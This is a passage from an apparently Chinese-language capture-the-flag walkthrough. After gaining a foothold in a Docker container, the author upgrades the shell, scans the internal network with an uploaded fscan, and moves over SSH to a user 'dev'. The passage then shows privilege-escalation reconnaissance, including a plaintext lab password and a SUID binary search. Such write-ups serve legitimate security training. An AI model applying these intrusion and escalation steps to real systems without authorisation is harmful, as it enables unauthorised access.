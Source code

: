 #### 扩展shell

```bash
script /dev/null -c bash
# Script started, output log file is '/dev/null'.
```

### 切换至dev用户

```text
root@db7db77ba113:~# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
12: eth0@if13: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:04 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.4/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

尝试 ssh 连接一下：

```bash
su dev
# su: user dev does not exist or the user entry does not contain all the required fields
ssh dev@172.18.0.4
# ssh: connect to host 172.18.0.4 port 22: Connection refused
```

看来不能瞎搞，传一个`fscan`扫描一下：

#### fscan扫描

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541084.png" alt="image-20240324144711303" style="zoom: 33%;" />

发现两个开启了22端口，尝试进行连接：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541085.png" alt="image-20240324144935462" style="zoom: 33%;" />

### 提权至root

#### 信息搜集

```bash
dev@run:~$ sudo -l
sudo -l
# [sudo] password for dev: developer88

# Sorry, user dev may not run sudo on run.
dev@run:~$ whoami;id
whoami;id
# dev
# uid=1000(dev) gid=1000(dev) groups=1000(dev)
dev@run:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
# /usr/bin/fusermount3
# /usr/bin/su
# /usr/bin/chfn
# /usr/bin/mount
# /usr/bin/sudo
# /usr/bin/gpasswd
# /usr/bin/newgrp
# /usr/bin/chsh
# /usr/bin/passwd
# /usr/bin/umount
```